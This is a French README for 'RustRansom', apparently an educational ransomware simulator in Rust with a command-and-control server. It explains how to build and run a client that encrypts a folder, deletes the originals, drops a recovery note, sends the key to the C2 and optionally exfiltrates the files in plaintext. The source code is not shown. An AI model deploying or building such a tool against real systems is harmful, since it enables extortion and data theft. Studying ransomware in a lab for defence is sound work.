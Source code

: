 
RustRansom est un simulateur de ransomware écrit en Rust, développé à des fins éducatives et de démonstration. Le projet se compose de deux parties principales :

- **Client RustRansom**  
  Ce programme chiffre les fichiers d’un répertoire cible en utilisant AES-256-GCM, crée un fichier `readme.txt` avec la clé de récupération et des instructions, envoie la clé au serveur de Command & Control (C2) et, si désiré, exfiltre les fichiers chiffrés en les déchiffrant en mémoire (les fichiers sont ainsi envoyés en clair).

- **Serveur C2 (RustRansom C2 Server)**  
  Un serveur HTTP léger basé sur Warp qui reçoit la clé de chiffrement et les fichiers exfiltrés. Les fichiers reçus sont sauvegardés dans le dossier `exfiltrated_files`.

## Caractéristiques

- **Chiffrement sécurisé** : Utilisation d'AES-256-GCM pour chiffrer les fichiers.
- **Déchiffrement** : Récupération des fichiers via la clé de chiffrement.
- **Exfiltration** : En option, les fichiers chiffrés sont déchiffrés en mémoire et envoyés en clair au serveur C2.
- **Création de Readme** : Génération d'un fichier `readme.txt` dans le répertoire cible, incluant une bannière, la clé de récupération et des instructions pour déchiffrer les fichiers.
- **Multi-plateforme** : Compatible Windows et Linux (via compilation native ou cross-compilation).

## Prérequis

- [Rust](https://www.rust-lang.org/tools/install) (version stable)  
- (Optionnel) Pour cross-compiler vers Windows depuis Linux :  
  ```sh
  rustup target add x86_64-pc-windows-gnu
  sudo apt-get install gcc-mingw-w64-x86-64
  ```

## Installation et Compilation

Clonez le projet :

```bash
git clone https://github.com/votre-utilisateur/rustransom.git
cd rustransom
```

### Compilation pour Linux

```bash
cargo build --release
```

Les exécutables se trouvent dans `target/release/` :
- Client : `rustransom_client`
- Serveur : `rustransom_server`

### Compilation pour Windows (cross-compilation depuis Linux)

```bash
rustup target add x86_64-pc-windows-gnu
cargo build --release --target x86_64-pc-windows-gnu
```

Les exécutables Windows seront dans `target/x86_64-pc-windows-gnu/release/` :
- Client : `rustransom_client.exe`
- Serveur : `rustransom_server.exe`

## Utilisation

### Client RustRansom

#### Chiffrement

Pour chiffrer un dossier et envoyer la clé au serveur C2 :

```bash
./rustransom_client -e -t /chemin/vers/dossier -s 127.0.0.1 -p 8080 -x
```

Options :
- `-e` : Active le mode chiffrement.
- `-t <dossier>` : Répertoire cible.
- `-s <C2_IP>` : Adresse IP du serveur C2 (par défaut 127.0.0.1).
- `-p <PORT>` : Port du serveur C2 (par défaut 8080).
- `-x` : Active l'exfiltration (les fichiers sont déchiffrés en mémoire et envoyés en clair).
- `-c` : Conserve une copie des fichiers originaux après chiffrement.

Pendant le chiffrement, le client :
- Chiffre tous les fichiers du dossier cible (les fichiers originaux sont supprimés si `-c` n'est pas spécifié).
- Génère un fichier `readme.txt` dans le dossier cible qui contient :
  - Une belle bannière,
  - Un message informatif,
  - La clé de récupération,
  - La commande pour déchiffrer les fichiers,
  - La liste des fichiers chiffrés.
- Envoie la clé de récupération au serveur C2.
- Si `-x` est activé, chaque fichier chiffré est déchiffré en mémoire et envoyé en clair au serveur C2 via l'endpoint `/files/<nom>`.

#### Déchiffrement

Pour déchiffrer les fichiers dans un dossier :

```bash
./rustransom_client -d -t /chemin/vers/dossier -k <clé_de_récupération>
```

Options :
- `-d` : Active le mode déchiffrement.
- `-t <dossier>` : Répertoire cible.
- `-k <clé>` : Clé de récupération (format hexadécimal, 64 caractères).

#### Affichage de l'aide

```bash
./rustransom_client -h
```

### Serveur C2 (RustRansom C2 Server)

Pour lancer le serveur C2 :

```bash
./rustransom_server -i 0.0.0.0 -p 8080
```

Options :
- `-i <IP>` : Adresse IP sur laquelle écouter.
- `-p <PORT>` : Port d'écoute.

Pour afficher l'aide :

```bash
./rustransom_server -h
```

## Avertissement

Ce projet est destiné à des fins éducatives uniquement. Son utilisation non autorisée ou malveillante est strictement interdite. Utilisez-le dans un environnement de test et obtenez toujours les autorisations nécessaires avant d'effectuer des tests sur des systèmes réels.

## Contribuer

Les contributions sont les bienvenues ! Veuillez ouvrir une issue ou soumettre une pull request pour proposer des améliorations ou des corrections.

## Licence

Ce projet est sous licence MIT. Consultez le fichier [LICENSE](LICENSE) pour plus de détails.

---

Ce README offre une présentation complète du projet, ses fonctionnalités et la procédure de compilation/utilisation sur différentes plateformes. N’hésitez pas à adapter ou enrichir ce document selon vos besoins.
